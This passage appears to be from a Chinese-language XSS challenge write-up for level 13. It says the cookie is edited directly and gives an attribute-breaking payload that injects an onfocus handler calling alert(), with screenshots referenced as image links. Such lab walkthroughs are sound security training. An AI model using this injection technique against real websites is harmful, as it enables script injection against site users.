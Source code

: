 ​![image](assets/image-20240913224444-iikv0bg.png)​

## level13

cookie，直接修改存储

payload：

```bash
" onfocus="javascript:alert()" type="text" "
```

​![image](assets/image-20240913225001-gkjaidf.png)​

​![image](assets/image-20240913202044-mo47p0z.png)​
